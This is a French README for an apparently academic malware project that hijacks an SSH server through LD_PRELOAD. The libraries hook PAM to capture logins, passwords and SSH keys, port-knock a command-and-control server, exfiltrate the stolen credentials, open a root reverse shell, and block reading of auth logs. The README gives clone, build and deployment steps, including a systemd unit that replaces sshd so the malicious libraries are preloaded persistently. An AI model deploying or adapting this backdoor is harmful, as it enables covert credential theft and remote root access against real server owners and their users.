 # Projet Malware LD_PRELOAD

## Introduction

Ce projet a pour objectif de démontrer comment utiliser un malware avec la technique LD_PRELOAD pour intercepter et modifier le comportement d'un serveur SSH. En surchargeant certaines fonctions critiques (via des bibliothèques partagées), le malware extrait les identifiants (login et mot de passe) et les clés SSH de la victime. De plus, un mécanisme de port knocking permet de signaler au serveur de Commande & Contrôle (C2) qu'une séquence d'accès est validée, déclenchant ainsi l'ouverture d'un reverse shell pour un accès interactif. Enfin, une bibliothèque complémentaire bloque l'accès à certains fichiers sensibles pour empêcher leur lecture par l'utilisateur.

## Fonctionnalités

### Interception des Credentials et copie des clés SSH

Utilisation des fonctions PAM via LD_PRELOAD afin d'extraire le login, le mot de passe de l'utilisateur. Utilisation de getpwnam() pour déterminer dynamiquement le répertoire personnel de l'utilisateur afin de lire les clés depuis le dossier ~/.ssh.

### Port Knocking

Envoi de trois connexions TCP successives sur des ports prédéfinis avec un délai entre chaque appel, permettant au C2 de détecter et d'ouvrir les services de réception.

### Reverse Shell

Lancement d'un shell interactif (via forkpty()) qui redirige son entrée/sortie sur une connexion TCP vers le C2.

### Blocage de Fichiers Sensibles

Appel des fonctions d’accès aux fichiers (open(), openat(), fopen()) pour empêcher l’accès à des fichiers critiques ou contenant des logs (ex. /var/log/auth.log).

## Structure du Projet

pam_auth_logger.c  
Cette bibliothèque partagée, injectée via LD_PRELOAD, intercepte les fonctions PAM pour récupérer les credentials et les clés SSH. Elle effectue ensuite le port knocking, envoie un fichier contenant les informations exfiltrées au C2 et lance un reverse shell.

block_files.c  
Bibliothèque partagée également injectée via LD_PRELOAD, qui surcharge les fonctions d'accès aux fichiers pour bloquer l'accès à certains fichiers.

c2 (serveur de Commande & Contrôle)  
Le serveur C2 est configuré pour surveiller les ports de port knocking, recevoir le fichier credentials.txt et accepter les connexions du reverse shell.

## Installation et Utilisation

### Pré-requis

```sh
sudo apt install -y build-essential libpam0g-dev openssh-server
```

### Compilation

Cloner le projet et compiler :

```sh
git clone https://github.com/snipzr/Partiel_C.git
cd Partiel_C
```

Pour le compiler sur la victime :

```sh
make clean && make
```

Pour compiler le C2 (dans Partiel_C, allez dans le dossier C2) :

```sh
gcc -o c2 c2.c
```

Modifiez les ports utilisés si vous le souhaitez :  
Sur le C2 dans le fichier c2, lignes 11 à 16  
Modifiez avec les mêmes ports dans pam_auth_logger.c (lignes 34 à 38). Mais surtout n'oubliez pas de changer l'adresse IP du C2 (ligne 33) sinon ça ne fonctionnera pas.

## Déploiement sur la Machine Victime

Arrêter le service SSH existant :

```sh
sudo systemctl stop sshd
sudo systemctl disable sshd
sudo systemctl mask sshd
```

On va créer un service qui charge automatiquement LD_PRELOAD au démarrage.

```sh
vim /etc/systemd/system/ld_preload_sshd.service
```

On va y coller le contenu suivant :

```
[Unit]
Description=SSH Daemon with LD_PRELOAD
After=network.target

[Service]
Environment="LD_PRELOAD=/chemin/vers/libpam_auth_logger.so:/chemin/vers/block_files.so"
ExecStart=/usr/sbin/sshd -D
Restart=on-failure
RestartSec=5s
StandardOutput=journal
StandardError=journal

[Install]
WantedBy=multi-user.target
```

Appliquer et démarrer le service :

```sh
sudo systemctl daemon-reload
sudo systemctl enable ld_preload_sshd
sudo systemctl start ld_preload_sshd
```

## Déploiement sur le Serveur C2

Lancez l'écoute grâce à la commande :

```sh
./c2
```

## Connexion SSH

Connectez-vous en SSH à la machine victime depuis une autre machine. Cette connexion déclenchera :  
L'interception et l'écriture du login, du mot de passe et la copie des clés SSH dans /tmp/credentials.txt. Le port knocking et l'envoi du fichier au C2 sous le nom de credentials_<IP_victime>. Le lancement d'un reverse shell en root vers le C2.

## Explications Techniques

### Fonctionnement du Linker et de LD_PRELOAD

Le linker dynamique (ld.so) est chargé au démarrage d'un programme de lier dynamiquement les bibliothèques partagées. La variable d'environnement LD_PRELOAD permet d'indiquer au linker de charger, en priorité, une ou plusieurs bibliothèques spécifiées avant les bibliothèques système.

### Fonctionnement des Threads sur Linux

Un thread est une unité d'exécution légère au sein d'un processus qui partage le même espace mémoire que les autres threads du même processus. Dans notre serveur C2, les threads sont utilisés pour écouter simultanément sur plusieurs ports (port knocking, réception des credentials, reverse shell).

## Conclusion

Ce projet démontre comment combiner LD_PRELOAD, l'injection de bibliothèques personnalisées et l'utilisation de threads pour intercepter et exfiltrer discrètement des informations sensibles, tout en bloquant l'accès à certains fichiers critiques.


